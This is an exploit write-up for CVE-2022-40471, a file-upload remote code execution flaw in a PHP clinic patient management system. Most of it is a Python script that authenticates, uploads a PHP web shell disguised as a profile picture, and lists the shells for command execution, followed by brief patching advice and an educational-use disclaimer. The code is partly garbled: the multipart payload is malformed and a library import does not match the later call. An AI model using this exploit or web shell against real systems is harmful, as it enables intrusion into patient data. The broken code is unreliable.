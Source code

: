 ```yaml
---
title: CVE-2022-40471 Remote Code Execution in Clinic's Patient Management System v 1.0
author: rashidkhanpathan
date: 2019-08-08 11:33:00 +0800
categories: [Exploit, Remote Code Execution, 0Day]
tags: [exploit, 0Day, Remote Code Execution]
pin: true
---
```



**Title:** Remote Code Execution in Clinic's Patient Management System v1.0 (CVE-2022-40471)

**Date:** September 9, 2022  
**Last Updated:** October 16, 2022

**Exploit Author:** RashidKhan Pathan  
**Exploit Source:** [Exploit Code](https://github.com/RashidKhanPathan/CVE-2022-40471) (exploit code)

**Vendor Homepage:** [Clinic's Patient Management System Source Code](https://www.sourcecodester.com/php-clinics-patient-management-system-source-code)

**Software Link:** [Download Clinic's Patient Management System v1.0](https://www.sourcecodester.com/sites/default/files/download/oretnom23/php-cpms.zip)

**Tested Platforms:** Windows 10, Kali Linux

---

**Description:**

The Clinic's Patient Management System v1.0 contains a severe vulnerability (CVE-2022-40471) allowing remote attackers to execute arbitrary code. This vulnerability arises due to improper handling of user-uploaded profile pictures in the 'users.php' module. Malicious actors can exploit this flaw to upload a PHP web shell, gaining unauthorized access and execution capabilities within the system.

---

**Exploitation Steps:**

To exploit this vulnerability, an attacker can perform the following steps:
1. Create a customized PHP web shell.
2. Utilize the 'users.php' module to upload the crafted web shell as a profile picture, alongside specifying a Display Name, Username, and Password.
3. Access the uploaded shell via the 'pms/user_images/' directory.
4. Intercept the shell's URL using BurpSuite and proceed to manipulate system commands by appending them after 'pms/user_images/.shell.php?cmd=your_command_here'.

---

**Exploit Code Overview:**

The provided Python script automates the exploitation process. It conducts authentication with the target, facilitates the upload of the malicious PHP web shell via crafted HTTP requests, and outputs the successful upload URL for the shell.

```python
# [Include the provided Python exploit code here]
from bs4 import *
import requests
import sys
import time

class RemoteCodeExecution:
    def auth(target_ip, target_port, uri_path, username, password):
        url = f'http://{target_ip}{uri_path}index.php'
        session = requests.get(url)
        cookies = (f"PHPSESSID={session.cookies['PHPSESSID']}")

        header = {
            'Host': target_ip,
            'Origin': 'http://' + target_ip,
            'Referer': 'http://' + target_ip + uri_path,
            'Cookie': cookies
        }

        data_body = {
            'username': username,
            'password': password,
        }

        url_auth = f'http://{target_ip}:{target_port}{uri_path}index.php'
        authentication = requests.post(url_auth, headers=header, data=data_body)

        if 'false' in authentication.text:
            print('[-] Username or password are incorrect, Try again')
            exit()
        else:
            print("[+] Exploit Title: Remote Code Execution (Authenticated) in Clinic's Patient Management System")
            print("[+] Author: RashidKhan Pathan {iHexCoder}")
            print("[@] Twitter: @itRashid")
            print("")
            time.sleep(1)
            print('[+] Authentication completed successfully,')
            print('[+] Uploading The Webshell')
        
        return cookies

    def exploit(target_ip, target_port, uri_path, cookies):
        header = {
                'Host': target_ip,
                'Content-Type': 'multipart/form-data; boundary=---------------------------405058720612140838201526428067',
                'Content-Length': '777',
                'Origin': 'http://' + target_ip,
                'Connection': 'close',
                'Cookie' : cookies,
                'Referer': 'http://' + target_ip + uri_path + 'users.php',
                'Upgrade-Insecure-Requests': '1'
        }


        data_body = '-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="display_name\r\n\r\nRCEExploit\r\n-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="user_name"\r\n\r\nRCEExploit\r\n-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="password"\r\n\r\nRCEEXPLOIT\r\n-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="profile_picture"; filename="shell.php"\r\nContent-Type: application/octet-stream\r\n\r\n<?php echo shell_exec($_GET["cmd"]); ?>\r\n-----------------------------405058720612140838201526428067\r\nContent-Disposition: form-data; name="save_user"\r\n\r\n-----------------------------405058720612140838201526428067--"; filename="webshell.php"\r\nContent-Type: application/octet-stream\r\n\r\n<?php echo shell_exec($_GET["cmd"]); ?>\r\n-----------------------------29635348012019605651675807433\r\nContent-Disposition: form-data; name="change\r\n\r\n-----------------------------29635348012019605651675807433--\r\n'
        uplaod_url = f"http://{target_ip}:{target_port}{uri_path}users.php"
        requests.post(uplaod_url, headers=header, data=data_body)


def main():
    
    if len(sys.argv) != 6:
        time.sleep(1)
        print("[+] Author: RashidKhan Pathan {iHexCoder}")
        print("[@] Twitter: @itRashid")

        time.sleep(1)
        print('Incorrect parameters!\r\n[!] Useage: python3 CVE-2022-40471.py <target_ip> <target_port> <target_uri> <username> <password>')
        print("[!] Example: python3 CVE-2022-40471.py 127.0.0.1 80 /pms/ UserName Password")

        exit()
        
    target_ip = sys.argv[1]
    target_port = sys.argv[2]
    uri_path = sys.argv[3]
    username = sys.argv[4]
    password = sys.argv[5]
    
    
    cookies = RemoteCodeExecution.auth(target_ip, target_port, uri_path, username, password)
    RemoteCodeExecution.exploit(target_ip, target_port, uri_path, cookies)    
    print(f'[+] Webshell uploaded successfully to: http://{target_ip}:{target_port}{uri_path}user_images/')
    print("[+] Enjoy your shell")
    print("[!] Note: In this Exploitation Scenario, Shell Changes the Random Digit after Uploading")
    print("[!] So Can use Any Uploaded Shell with Random Number ")
    print("[!] Copy The One of The Follwing Shell and Exploit it Using Curl ie: http://YourIP/pms/user_images/1663988032shell.php?cmd=whoami")
    print("")
    print("[+] Uploaded Shell")
    def get_url_paths(url, ext='', params={}):
        response = requests.get(url, params=params)
        if response.ok:
            response_text = response.text
        else:
            return response.raise_for_status()
        soup = BeautifulSoup(response_text, 'html.parser')
        parent = [url + node.get('href') for node in soup.find_all('a') if node.get('href').endswith(ext)]
        return parent

    url = 'http://localhost/pms/user_images/'
    ext = 'php'
    result = get_url_paths(url, ext)
    print(result)

   
    
if __name__ == '__main__':
    main()

```

---

**Recommendations:**

- **Immediate Update:** Users are strongly advised to update the Clinic's Patient Management System to a patched version that addresses this critical vulnerability.
- **Restrict File Uploads:** Implement stricter validation mechanisms for file uploads, especially image files, to prevent the execution of arbitrary code.
- **Regular Security Audits:** Conduct regular security audits and penetration testing to identify and patch potential vulnerabilities in the system.

---

**Disclaimer:**

This exploit demonstration and information are solely for educational purposes and security awareness. Use this knowledge responsibly and only on systems where you have explicit permission for testing or demonstration.








